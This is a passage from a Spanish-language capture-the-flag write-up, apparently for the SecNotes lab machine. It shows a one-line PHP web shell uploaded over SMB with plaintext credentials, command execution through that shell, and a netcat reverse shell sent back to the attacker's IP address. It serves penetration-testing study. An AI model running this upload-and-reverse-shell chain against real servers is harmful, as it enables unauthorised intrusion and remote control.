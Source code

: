 Revisando la página en el puerto 8808 me encuentro solo con lo siguiente.

<img class="img" src="/assets/img/machines/SecNotes/13.png" width="1200">

Debido al contenido de la web y de la carpeta además de su nombre `new_site` puedo suponer que tengo acceso a la carpeta en donde se almacena la web con permisos de escritura por lo que intentaré subir una shell.

```bash
❯ /usr/bin/cat cmd.php
<?php system($_REQUEST['cmd']); ?>
❯ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.129.145.213/new-site -c 'put cmd.php'
putting file cmd.php as \cmd.php (0.1 kb/s) (average 0.1 kb/s)
❯ curl -X GET http://10.129.145.213:8808/cmd.php\?cmd\=whoami
secnotes\tyler
```
Ahora intentaré subir el nc.exe y mandarme una shell hacia mí.

```bash
❯ locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
❯ cp /usr/share/windows-resources/binaries/nc.exe .
❯ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.129.145.213/new-site -c 'put nc.exe'
putting file nc.exe as \nc.exe (63.7 kb/s) (average 63.7 kb/s)
❯ curl "http://10.129.145.213:8808/cmd.php\?cmd\=nc.exe+-e+cmd.exe+10.10.16.31+443"
...

❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.31] from (UNKNOWN) [10.129.145.213] 53648
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```
# Shell como Administrator

